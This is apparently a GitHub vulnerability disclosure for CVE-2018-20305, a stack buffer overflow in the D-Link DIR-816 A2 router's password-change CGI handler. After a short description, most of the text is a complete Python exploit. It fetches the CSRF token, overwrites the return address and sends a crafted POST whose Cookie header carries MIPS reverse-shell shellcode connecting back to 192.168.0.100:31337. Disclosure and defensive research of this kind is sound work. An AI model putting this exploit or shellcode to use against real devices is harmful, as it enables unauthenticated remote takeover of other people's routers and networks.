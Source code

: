 # D-Link DIR-816 A2 Stack Overflow CVE-2018-20305
##### Vender & Firmware version ：D-Link 1.10 B05 
##### CVE-ID : CVE-2018-20305
##### Exploit Author: ScareCrowL 
##### Vendor Homepage: http://www.dlink.com.cn/
##### Hardware Link: http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816 
![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/DLINK.jpeg)
# Vulnerability Description
Stack-based buffer overflows found on d-link dir-816 A2 1.10 B05 devices allow arbitrary remote code execution without authentication.Embodied in the /goform/form2userconfig.cgi handler function, long password may lead to stack-based buffer overflow and cover the return address.
# Vulnerability Detail

In the route /goform/form2userconfig.cgi handler.The value of the parameter password is base64 decoded, and the result is stored on the stack.
The vendor only sets a password length limit on the front end, but does not check the password length for POST submission.

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/IDA.jpg)

There's no check on length of the password, and a very long input could lead to stack overflow and overwrite the return address:

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/GDB.jpg)

Fortunately, the heap is at fixed address with permission rwx. So we could build a very large HTTP header which contains the shellcode, and set the return address to that shellcode.

After running the poc, we easily get the shell.

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/GETSHELL.png)

# POC
```python
#!/usr/bin/env python
# POC code reference: https://github.com/PAGalaxyLab/VulInfo/tree/master/D-Link/DIR-816/stack_overflow_1

from pwn import *
import requests

# First, we need the CSRF token
r=requests.get('http://192.168.0.1/dir_login.asp')
for l in r.content.split('\n'):
    if 'tokenid' in l:
        q2 = l.rfind('"')
        q1 = l[:q2].rfind('"')
        tokenid = l[q1+1:q2]
print 'tokenid is %s' % tokenid

# The return address will be overwritten as newRet (sample:0x0048fba8)
newRet = '\xa8\xfb\x48\x00'

# Reverse shell to 192.168.0.100:31337
shellcode = "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += "\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += "\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += "\xf8\xff\xa5\xaf\x00\x64\x05\x3c\xc0\xa8\xa5\x34\xfc\xff\xa5\xaf"
shellcode += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += "\xab\x0f\x02\x24\x0c\x09\x09\x01"

pMy= "L"*156+ newRet

rn = "\r\n"
padding = "\x00\x00\x00\x00"

pBuf= "username=A&oldpass=&newpass="+b64e(pMy)+"&confpass="+'&modify=B&select=s0&hiddenpass=&submit.htm=Send&tokenid=%s'% tokenid

payload = "POST /goform/form2userconfig.cgi " + "HTTP/1.1" + rn
payload += "Host: 192.168.0.1"+rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x100 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += ("Content-Length: %d" % len(pBuf)) +rn
payload += 'Content-Type: application/x-www-form-urlencoded'+rn
payload += rn
payload += pBuf

p = remote('192.168.0.1', 80)
p.send(payload)
print p.recv()
```
